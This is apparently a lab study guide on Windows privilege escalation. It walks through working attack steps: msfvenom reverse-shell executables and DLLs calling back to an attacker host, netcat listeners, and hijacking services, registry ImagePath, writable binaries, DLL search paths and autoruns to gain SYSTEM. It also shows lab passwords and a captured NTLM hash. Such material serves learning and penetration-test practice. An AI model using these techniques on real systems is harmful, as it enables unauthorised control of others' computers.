

# Windows Privilege Escalation


## 1.  Setup

1. download/use the tools provided , to kali machine
2. start the smb server in kali (make sure to start in tools folder)
```bash
─$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .
[sudo] password for kali: 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (192.168.37.131,50230)
[*] AUTHENTICATE_MESSAGE (MSEDGEWIN10\IEUser,MSEDGEWIN10)
[*] User MSEDGEWIN10\IEUser authenticated successfully
[*] IEUser::MSEDGEWIN10:aaaaaaaaaaaaaaaa:8231d216e3e510a4c19ef0b503c56158:01010000000000008069a700b73dd70107d750ad4186882d000000000100100058004d0077004200410079004c0068000300100058004d0077004200410079004c0068000200100062007700610052004300700055005a000400100062007700610052004300700055005a00070008008069a700b73dd70106000400020000000800300030000000000000000000000000300000f3f0f608a3ec7c26cd886794c03fb2fd5403dc6a814009a2f1168cb99cd4b5580a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00330037002e00310032003800000000000000000000000000
[-] Unknown level for query path info! 0x109
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:TOOLS)
[*] Closing down connection (192.168.37.131,50230)
[*] Remaining connections []
```
3. [Log in as : `user`]In windows machine open Powershell(run as administartor)
4. start the smb server 

    ```powershell
    PS C:\Windows\system32> Enable-WindowsOptionalFeature -Online -Featurename "SMBProtocol-Client" -All
    
    ```

4a. if the above command does'nt work(in my case) use:

```powershell
PS C:\Windows\system32>Get-WIndowsOptionalFeature -Online -FeatureName "SMB1Protocol"
```


5. Turn on optional feature by typing `optionalfeatures.exe` in powershell.
6. Enable `SMB File Sharing Support` and `SMB Direct`.
7. Restart the machine.
8. Login as IEuser and run cmd as administrator and `cd` to `Desktop`
9. copy the setup script from kali smb server

```powershell
    copy \\192.168.37.128\tools\setup.bat .
```
10. Run the setup.bat
```powershell
   .\setup.bat
```
11. Restart windows (you will see new account and PrivEsc folder in `C`): Login as User `user`  with password `password321`


## 2. Accounts on Windows Machine


<hr>

IEUser - Password - `Passw0rd!`  
admin- `password123`  
user - `password321`  

<hr>


## 3. Privilege Escalation in Windows 

- Privilege Escalation can be simple (e.g. a kernel exploit) or requires a lot of reconnaissance on the compromised system.

- In a lot of cases, privilege escalation may not simply rely on a single misconfiguration, but may require you to think, and combine multiple misconfigurations.

- All privilege escalations are effctively examples of access control violations.
- Access control and user permissions are intriniscally linked.
- When focusing on privilege escalations in Windows, understanding how Windows handles permissions is very important.

### 3.1 Understanding Permissions in Windows


**User Accounts**  
- User accounts are used to log into windows sysrtem.
- think of a user account as a collection of settings/preferences bound to a unique identity.
- The local `administrator` account is created by default at installation.
- Several other default user accounts may exist (e.g. `Guest`) depennding on ther version of windows. 

**Service Accounts**

- Service accounts are(somewhat obviously) used to run services in windows.
- Service accounts cannot be used to sign into a windows system.
- The ***System*** account is a default service account which has the highest privileges of any local account in windows.
- Other default service accounts include ***NETWORK SERVICE*** and ***LOCAL SERVICE***


**Groups**  
- User accounts can belong to multiple Groups, and Groups can have multiple users.Groups can even belong to other Groups.
- Groups allow for easier access control to resources, by setting up group wide permissions to all members of the group, rather than having to set the permissions individually.
- Regular groups(e.g. Administrators, Users) have a set list of members.
- Pseudo groups(e.g. "Authentication Users") have a dynamic list of members which changes based on certain ineteractions.  


**Resources**  
- In Windows, there are multiple type of resources(also known as objects):
    - Files/Directories
    - Registry entries
    - Services
- Whether a user and/or group has permission to perform a certain action on a resource depend on that resources's access control list(ACL).


**ACLs & ACEs**  
- Permissions to access a certain resource in windows are controlled by the access control list(ACL) for that resource.
- Each ACL is made up of zero or more access control entries(ACEs).
- Each ACE defines the relationship between a principle(e.g. a user, group) and a certain access right.




<hr>

## 4.Spawning Administrative Shells


- If we can execute commands with admin privileges, a reverse shell generated by mesfvenom works nicely:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.37.128 LPORT=53 -f exe -o reverse.exe
```
- This reverse shell can be caught using netcat or Metasploit's own multi/handler.

1. generate reverse shell in tools directory in kali
2. copy the `reverse.exe` in windows machine
```cmd
C:\PrivEsc>copy \\192.168.37.128\tools\reverse.exe .
    (1) file(s) copied .
```
3. run the exe file from cmd
    ```cmd
    c:\PrivEsc> reverse.exe
    ```
4. reverse shell can now be seen in attcker machine(kali)
```bash
$:
connect to [192.168.37.128] from (UNKNOWN) [192.168.37.131] 50626
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\PrivEsc>ls

```

### 4.1 RDP

Alternatively, if RDP is available(or enable it), we can add out low privileged user to the administrators group and then spawn an administarors command prompt via the GUI

```bash
net localgroup administrators <username> /add
```


## 5. Privilege Escalation tools


### 5.1 Why use Tools

- Tools allw us to automate the reconnaissance that can identify potential privilege escalations.
- While it is always important to understand what tools are doing, they are valuable in a time-limited setting, such as exam.
- We will use mostly,  `WinPEAS` and Seatbelt.

- Command used
```bash
C:\PrivEsc .\winPEASAny.exe quiet servicesinfo
```
- Sample winpeas output
```bash
──(kali㉿kali)-[~/windows-priv-esc]
└─$ cat servicesinfo.txt           
   Creating Dynamic lists, this could take a while, please wait...
   - Checking if domain...
   - Getting Win32_UserAccount info...
   - Creating current user groups list...
   - Creating active users list...
   - Creating disabled users list...
   - Admin users list...
  WinPEAS vBETA VERSION, Please if you find any issue let me know in https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues by carlospolop

  [+] Leyend:
         Red                Indicates a special privilege over an object or something is misconfigured
         Green              Indicates that some protection is enabled or something is well configured
         Cyan               Indicates active users
         Blue               Indicates disabled users
         LightYellow        Indicates links

   [?] You can find a Windows local PE Checklist here: https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation


  ========================================(Services Information)========================================

  [+] Interesting Services -non Microsoft-(T1007)
   [?] Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services                                                                                                                                                                                             
    daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped
    YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles
   =================================================================================================

    dllsvc(DLL Hijack Service)["C:\Program Files\DLL Hijack Service\dllhijackservice.exe"] - Manual - Stopped
   =================================================================================================

    filepermsvc(File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"] - Manual - Stopped
    File Permissions: Everyone [AllAccess]
   =================================================================================================


```
### 5.2 Admin -> System

To escalate from and admin user to full SYSTEM privileges, we can uise the `PsExec` tool from Windows Sysinternals

- usage
```bash
C:\PrivEsc: .\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```


#### 5.2.1 PowerUp & SharpUp

- PowerUp & SharpUp are very similar tools that hunt for specific privilege escalation misconfigurations.
- PowerUp: (written using powershell)
https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1
- SharpUp: https://github.com/GhostPack/SharpUp
Pre-Compiled SharpUp: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpUp.exe


- Limited Enumeration but good


- Running PowerUp


## 6. Kernal Expploits

- Kernals are the core of any operating system
- Think of it as a layer between application software and the actual computer hardware.
- The kernal has complete control over the operating system. Exploiting a kernal vulnerability can result in execution as the SYSTEM user.


### 6.1 Finding Kernal exploits

Finding and using kernal exploits is usually a simple process:

1. Enumerate windows version/patch level - can be found in `systeminfo`.
2. Find matching exploits in `ExploitDB`, `Github`.
3. Compile and run.

> Kernal exploits can often be unstable and may be one-shot or cause a system crash.

__Tools__
1. Windows Exploit suggester: (available in metasploit): Takes the output of `systeminfo` command and use it identify relavent exploits
2. Precompiled kernal exploits: `SecWiki`
3. Watson (Good for enumerating kernal exploits)


## 7 Service Exploits

- Services are simply programs that run in the background, accepting input or performing regualr tasks.

- If services run with `SYSTEM` privileges and are misconfigured, exploiting them may lead to command execution with `SYSTEM` privileges as well.

__Service commands :__

- Query the configuration of a service:
```bash
sc.exe qc <name>
```
- Query the current status of a service:
```bash
sc.exe query <name>
```
- Modify a configuration option of a service:
```bash
sc.exe config <name> <option>= <value>  # note space after option
```
- Start/stop a service:
```bash
net start/stop  <name>
```

### 7.1  Insecure service permissions


- Each service has an ACL which defines certain servcie-specific permissions.
- Some permissions are innocuos(e.g `SERVICE_QUERY_CONFIG`, `SERVICE_QUERY_STATUS`).
- Some may be useful (e.g `SERVICE_STOP`, `SERVICE_START`).
- Some are dangerous(e.g. `SERVICE_CHANGE_CONFIG`, `SERVICE_ALL_ACCESS`).


 - If our user has permission to change the configuration of a service which runs with `SYSTEM` privileges, we can change the executable, the service uses to one of our own.

 - __Potential rabbit hole :__ If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges!.
 

- Exploiting `daclsvc` service from `winpeas` output. (Can be seen in modifiable services)
- verify this with `accesschck`

```bash
C:\PrivEsc>.\accesschk.exe /accepteula -uwcqv user daclsvc
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

|  Parameter | Description   |  
|---|---|
|  u | suppress errors   |  
| w  | Show only objects that have write access  |  
| c  |  Name is a Windows Service, e.g. `ssdpsrv`. Specify "*" as the name to show all services and `scmanager` to check the security of the Service Control Manager. |
|q|Omit Banner|
|v|Verbose (includes Windows Vista Integrity Level)|

More can be found here: https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk

- We now know we can change `SERVICE_CHANGE_CONFIG` service configuration as well as start and stop service (`SERVICE_START`, `SERVICE_STOP`).
- We can query what it can do, using

```bash
C:\PrivEsc>sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

-  `DEMAND_START` - need to start manually.
-  `LocalSystem` - runs with System permissions.

- We can check the current state of this service
```bash
C:\PrivEsc>sc query daclsvc

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED  # current state is stopped
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
```

- We have write permissions, we can change the binary path of the service to our reverse shell payload.

```bash
C:\PrivEsc>sc config daclsvc binpath= "\"C:\PrivEsc\reverse_9001.exe\""
[SC] ChangeServiceConfig SUCCESS
```

- We can now start the servie (make sure `netcat` is listening to the reverse shell)
- To start the service
```bash
C:\PrivEsc>net start daclsvc
```

```bash
┌──(kali㉿kali)-[~/windows-priv-esc]
└─$ sudo nc -lvnp  9001
[sudo] password for kali: 
listening on [any] 9001 ...
connect to [192.168.37.128] from (UNKNOWN) [192.168.37.134] 51947
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

### 7.1  Unquoted Service path

- Executables in windows can be run without using their extensions (e.g. `whoami.exe` can be run as `whoami`)..
- Some executables take arguments, seperated by spaces e.g. `someprogram.exe arg1 arg2 ..`

- This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.

- Consider the following unquoted path

```bash
C:\Program Files\Some Dir\Someprogram.exe
```
- It seems to run `Someprograme.exe`, but to windows `C:\program` could be executable, with two arguments: `Files\Some` and `Dir\Someprograme.exe`
- Windows resolves this ambiguity by checking each possibilities in turn.
- If we can write to a location, windows checks before the acvtual executable, we can trick the service into executing it instead.

__Winpeas output__
```bash
 ===========================================                                                                                       

unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - No quotes and Space detected
============================================================
```
- Check whether we have permission to start the service

```bash
C:\PrivEsc>.\accesschk.exe /accepteula -ucqv unquotedsvc
unquotedsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  R  Everyone
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

- Now check write permissions in each existing directory

```bash
C:\PrivEsc>.\accesschk.exe /accepteula -uwdq C:\
C:\
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Administrators
  RW NT AUTHORITY\SYSTEM
```

```bash
C:\PrivEsc>.\accesschk.exe /accepteula -uwdq "C:\Program Files"
C:\Program Files
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

```bash
C:\PrivEsc>.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

- Found a directroy `"C:\Program Files\Unquoted Path Service"` where we have write permissions.

- Now copy the `reverse_shell` to the directory and name it as `common.exe`

```bash
C:\PrivEsc>copy reverse_9001.exe "C:\Program Files\Unquoted Path Service\common.exe"
        1 file(s) copied.
```

- Start the listener and start the service
- Starting the service
```bash
net start unquotedsvc
```
__Result__

```bash
┌──(kali㉿kali)-[~/windows-priv-esc]
└─$ sudo nc -lvnp  9001 
listening on [any] 9001 ...
connect to [192.168.37.128] from (UNKNOWN) [192.168.37.134] 52140
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami 
whoami
nt authority\system

```

### 7.3 Weak Registry Permissions

- The windows registry stores entries for each service.
- Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service's configuration even if we cannot modify the service directly.
- Winpeas output
```bash
[+] Looking if you can modify any service registry()
[?] Check if you can modify the registry of a service https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services-registry-permissions
HKLM\system\currentcontrolset\services\regsvc (Interactive [TakeOwnership])
```
- `regsvc` is modifiable

- We can verify this with `accesschk`

```bash
C:\PrivEsc>.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS
```

`NT AUTHORITY\INTERACTIVE` - is a pseudo group(comprisies of all users who can log on to the system locally- that includes our user) that has full control over the registry entries.

- Now use `accesschk` to verify that we can start the services
```bash
C:\PrivEsc>.\accesschk.exe /accepteula -ucqv user regsvc
R  regsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```
- Also check current values in service registry entries
```bash
C:\PrivEsc>reg query HKLM\SYSTEM\CurrentControlSet\services\regsvc

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\regsvc
    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x3
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
    DisplayName    REG_SZ    Insecure Registry Service
    ObjectName    REG_SZ    LocalSystem

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\regsvc\Security

```
`ImagePath` is currentky set to `insecureregistryservice.exe` and this executes with `SYSTEM` privileges.
- We can overwrite the `Imagepath` value so that it points to oyur reverse shell.(similar to binpath)
- commmand
```bash
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\privEsc\reverse_9001.exe /f
```
```bash
C:\PrivEsc>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\privEsc\reverse_9001.exe /f
The operation completed successfully.
```
- Set up the listener on kali and start the service.
- Starting service
```bash
net start regsvc
```
__Result__

```bash
$ sudo nc -lvnp  9001 
listening on [any] 9001 ...
connect to [192.168.37.128] from (UNKNOWN) [192.168.37.134] 52173
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

### 7.4 Insecure Service Executables

- If the original service executable is modifiable by our user, we can simply replace it with our reverse shell executable.

- Always create a backup of the original executable if you are exploiting this in real system!.

From winpeas output
```bash
   filepermsvc(File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"] - Manual - Stopped
    File Permissions: Everyone [AllAccess]
```
- `filepermsvc` executable seems to be writable by everyone
- verify this with `accesschk`

```bash
C:\PrivEsc>.\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

- Check whether we can start and stop the services

```bash
C:\PrivEsc>.\accesschk.exe /accepteula -uvqc filepermsvc
filepermsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  R  Everyone
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```
- Backup the original service executable
```bash
C:\PrivEsc>copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\temp
        1 file(s) copied.
```
- Then overwrite the executable with our reverse shell

```bash
C:\PrivEsc>copy /Y "C:\PrivEsc\reverse_9001.exe" "C:\Program Files\File Permissions Service\filepermservice.exe"
        1 file(s) copied.
```
- Start the listener on kali and start the service on windows
```bash
C:\PrivEsc>net start filepermsvc
```

__Result__
```bash
└─$ sudo nc -lvnp  9001 
listening on [any] 9001 ...
connect to [192.168.37.128] from (UNKNOWN) [192.168.37.134] 52186
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

### 7.5 DLL hijacking

- often a service will try to load functionality from a library called a DLL(dynamic link library). Whatever functionality the DLL provides, will be executed with the same privileges as the service that loaded it.
- If a DLL is loaded with an absolute path, it might be possible to escalate privileges if that DLL is writable by our user.

- A more common misconfiguration that can be used to escalate privileges is if a DLL is missing from the system, and our user has write access to a directory within the PATH that Windows searches for DLLs in.
- unfortunately, initial detection of vulnerable services is difficult and often the entire process is very manual.


- From winpeas output
```bash
dllsvc(DLL Hijack Service)["C:\Program Files\DLL Hijack Service\dllhijackservice.exe"] - Manual - Stopped
```
- Check access rights on this service

```bash
C:\PrivEsc>.\accesschk.exe /accepteula -uvqc user dllsvc
R  dllsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

- confirming the running service
```bash
C:\PrivEsc>sc qc dllsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: dllsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DLL Hijack Service\dllhijackservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DLL Hijack Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

> Service runs with System privileges

```bash
  [+] Checking write permissions in PATH folders (DLL Hijacking)()
   [?] Check for DLL Hijacking in PATH folders https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dll-hijacking
    C:\Windows\system32
    C:\Windows
    C:\Windows\System32\Wbem
    C:\Windows\System32\WindowsPowerShell\v1.0\
    C:\Windows\System32\OpenSSH\
    C:\ProgramData\chocolatey\bin
    C:\Program Files\Puppet Labs\Puppet\bin
    C:\Users\IEUser\AppData\Local\Microsoft\WindowsApps
    (DLL Hijacking) C:\Temp: Authenticated Users [WriteData/CreateFiles] # This one

```

- Now generate a reverse shell dll using msfvenom

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.37.128 LPORT=9001 -f dll -o hijackme.dll
```
- Place the dll in `Temp` directory
```bash
C:\PrivEsc>copy hijackme.dll C:\Temp
        1 file(s) copied.
```
- Start the listener on kali nad start the service(stop and start)

```bash
C:\PrivEsc>net start dllsvc
The DLL Hijack Service service is starting....
```
__Result__

```bash
└─$ sudo nc -lvnp  9001 
listening on [any] 9001 ...
connect to [192.168.37.128] from (UNKNOWN) [192.168.37.134] 52307
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```


## Registry

__AutoRuns__

- Windows can be configured to run commands at startup, with elevated privileges.
- These `Autoruns` are configured in the Registry.
- If you are able to write to an `Autorun` executable, and are able to restart the system(or wait for it to be restarted) you may be able to escalate privileges.

- Command
```bash
winPEAsany.exe quiet applicationsinfo
```
Winpeas sample output

```bash

  [+] Autorun Applications(T1010)
   [?] Check if you can modify other users AutoRuns binaries https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#run-at-startup
    Folder: C:\Windows\system32
    File: C:\Windows\system32\SecurityHealthSystray.exe
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   =================================================================================================

    Folder: C:\BGinfo\Bginfo.exe\accepteula\ic:\bginfo\bgconfig.bgi
    FolderPerms: Authenticated Users [WriteData/CreateFiles]
    File: C:\BGinfo\Bginfo.exe /accepteula /ic:\bginfo\bgconfig.bgi /timer:0 (Unquoted and Space detected)
    FilePerms: Authenticated Users [WriteData/CreateFiles]
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   =================================================================================================

    Folder: C:\Windows\system32
    File: C:\Windows\system32\vm3dservice.exe -u
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   =================================================================================================

    Folder: C:\Program Files\VMware\VMware Tools
    File: C:\Program Files\VMware\VMware Tools\vmtoolsd.exe -n vmusr
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   =================================================================================================

    Folder: C:\Program Files\Autorun Program
    File: C:\Program Files\Autorun Program\program.exe
    FilePerms: Everyone [AllAccess]  # this one
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

- Query the `RegPath` (- We can verify this manually (make sure to check all the executable)
```bash
C:\PrivEsc>reg query HKLM\SOFTWARE\Microsoft\Windows\Currentversion\Run

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Currentversion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    bginfo    REG_SZ    C:\BGinfo\Bginfo.exe /accepteula /ic:\bginfo\bgconfig.bgi /timer:0
    VMware VM3DService Process    REG_SZ    "C:\Windows\system32\vm3dservice.exe" -u
    VMware User Process    REG_SZ    "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```

- Checking only the one that winpeas indicated

```bash
C:\PrivEsc>.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```
> User has RW access (Full access)

- To exploit overwrite the `program.exe` executables with another file(our reverse shell) and restart the windows machine.

- Make a backup first, then copy the reverse_shell executable.
- Setup the listener and restart the windows machine
- Log in as administrator if the shell does'nt connect

```bash
C:\PrivEsc>copy  "C:\Program Files\Autorun Program\program.exe" C:\Temp
        1 file(s) copied.

C:\PrivEsc>copy /Y reverse_9001.exe "C:\Program Files\Autorun Program\program.exe"
        1 file(s) copied.
```
__Result__

```bash
──(kali㉿kali)-[~/windows-priv-esc]
└─$ sudo nc -lvnp  9001                                                                                                                                                                   6 ⚙
[sudo] password for kali: 
listening on [any] 9001 ...
connect to [192.168.37.128] from (UNKNOWN) [192.168.37.134] 49723
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
msedgewin10\admin
```
<br><br/><br><br/><br><br/><br><br/><br><br/><br><br/>
<br><br/><br><br/><br><br/><br><br/><br><br/><br><br/>
